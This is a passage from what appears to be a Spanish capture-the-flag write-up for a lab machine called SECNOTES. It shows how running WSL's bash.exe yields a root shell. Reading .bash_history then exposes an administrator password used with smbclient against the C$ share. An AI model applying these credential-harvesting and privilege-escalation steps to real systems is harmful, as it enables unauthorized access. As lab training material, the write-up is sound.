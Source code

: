 ```bash
06/21/2018  02:00 PM    <DIR>          Users
01/26/2021  02:38 AM    <DIR>          Windows
               1 File(s)    201,749,452 bytes
               9 Dir(s)  13,910,695,936 bytes free

C:\>
```

Por lo tanto, vamos a ejecutar `C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe` para ver que pasa.

```bash
C:\> C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
whoami
root
script /dev/null -c bash
Script started, file is /dev/null
root@SECNOTES:~# whoami
root
root@SECNOTES:~# ll
total 8
drwx------ 1 root root  512 Jun 22  2018 ./
drwxr-xr-x 1 root root  512 Jun 21  2018 ../
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem/
root@SECNOTES:~# cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exitroot@SECNOTES:~#
```
